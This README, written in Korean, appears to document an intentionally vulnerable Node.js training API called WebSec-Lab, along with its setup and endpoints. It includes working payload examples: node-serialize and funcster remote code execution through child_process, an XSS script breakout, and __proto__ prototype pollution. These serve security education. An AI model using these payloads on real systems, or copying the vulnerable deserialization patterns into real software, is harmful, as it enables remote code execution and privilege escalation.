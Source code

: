 # WebSec-Lab Node.js Deserialization API

🚨 **WARNING: This API contains intentional vulnerabilities for educational purposes only!**

## 개요

이 Node.js API 서버는 WebSec-Lab의 고급 직렬화 취약점 테스트를 위해 설계되었습니다. 실제 Node.js 직렬화 라이브러리들의 취약점을 안전한 환경에서 테스트할 수 있습니다.

## 설치 및 실행

### 1. 의존성 설치
```bash
cd /home/wsl/S_WEB_Project/websec-lab/src/node_api
npm install
```

### 2. 서버 실행
```bash
npm start
```

서버는 http://localhost:3001 에서 실행됩니다.

### 3. 개발 모드 (파일 변경 시 자동 재시작)
```bash
npm run dev
```

## API 엔드포인트

### 🏠 메인 정보
- `GET /` - API 정보 및 사용 가능한 엔드포인트 목록

### 🔥 취약점 테스트 엔드포인트

#### 1. node-serialize 취약점
- `POST /api/node-serialize`
- **페이로드 예제:**
```json
{
  "payload": "{\"rce\":\"_$$ND_FUNC$$_function(){require('child_process').exec('calc.exe');}()\"}",
  "mode": "vulnerable"
}
```

#### 2. serialize-javascript XSS
- `POST /api/serialize-javascript`
- **페이로드 예제:**
```json
{
  "data": {
    "name": "</script><script>alert('XSS')</script>",
    "content": "malicious data"
  },
  "mode": "vulnerable"
}
```

#### 3. funcster RCE
- `POST /api/funcster`
- **페이로드 예제:**
```json
{
  "serializedFunction": "function() { require('child_process').exec('whoami'); }",
  "mode": "vulnerable"
}
```

#### 4. cryo 프로토타입 오염
- `POST /api/cryo`
- **페이로드 예제:**
```json
{
  "frozenData": "{\"__proto__\":{\"polluted\":\"yes\",\"isAdmin\":true},\"data\":\"hello\"}",
  "mode": "vulnerable"
}
```

### 🛠️ 유틸리티 엔드포인트

#### 페이로드 예제 생성
- `GET /api/generate-payload` - 각 취약점별 페이로드 예제 제공

#### 헬스 체크
- `GET /api/health` - 서버 상태 및 활성화된 취약점 확인

## 보안 모드

각 엔드포인트는 `mode` 파라미터로 안전한 구현과 취약한 구현을 비교할 수 있습니다:

- `"mode": "vulnerable"` - 취약한 구현 (교육 목적)
- `"mode": "safe"` - 안전한 구현 (권장 방법)

## 사용 예제

### cURL로 테스트
```bash
# node-serialize 취약점 테스트
curl -X POST http://localhost:3001/api/node-serialize \
  -H "Content-Type: application/json" \
  -d '{
    "payload": "{\"test\":\"_$$ND_FUNC$$_function(){console.log(\"RCE Test\");}()\"}",
    "mode": "vulnerable"
  }'
```

### PHP에서 호출 (WebSec-Lab 통합)
```php
$ch = curl_init();
curl_setopt_array($ch, [
    CURLOPT_URL => 'http://localhost:3001/api/node-serialize',
    CURLOPT_POST => true,
    CURLOPT_POSTFIELDS => json_encode([
        'payload' => '{"rce":"_$$ND_FUNC$$_function(){console.log(\"Test\");}()"}',
        'mode' => 'vulnerable'
    ]),
    CURLOPT_HTTPHEADER => ['Content-Type: application/json'],
    CURLOPT_RETURNTRANSFER => true
]);
$response = curl_exec($ch);
curl_close($ch);
```

## 로그 모니터링

서버 실행 중 다음과 같은 로그를 확인할 수 있습니다:

```
🚨 WARNING: This server contains intentional vulnerabilities for educational purposes!
🟢 WebSec-Lab Node.js API Server running on port 3001
[2024-01-01T12:00:00.000Z] POST /api/node-serialize
🔥 node-serialize vulnerability test started
⚠️ WARNING: About to execute potentially malicious payload
```

## 주의사항

⚠️ **중요:** 이 서버는 **교육 목적으로만** 사용해야 합니다.

- 🚫 **프로덕션 환경에서 사용 금지**
- 🚫 **공개 네트워크에 노출 금지**
- ✅ **격리된 테스트 환경에서만 사용**
- ✅ **학습 및 연구 목적으로만 사용**

## 트러블슈팅

### 포트 충돌
```bash
# 포트 3001이 사용 중인 경우
PORT=3002 npm start
```

### 의존성 설치 문제
```bash
# 캐시 클리어 후 재설치
npm cache clean --force
rm -rf node_modules package-lock.json
npm install
```

### PHP에서 API 연결 실패
1. Node.js 서버가 실행 중인지 확인
2. 방화벽 설정 확인
3. localhost 대신 127.0.0.1 사용 시도

## 라이선스

이 코드는 교육 목적으로만 제공되며, MIT 라이선스 하에 배포됩니다.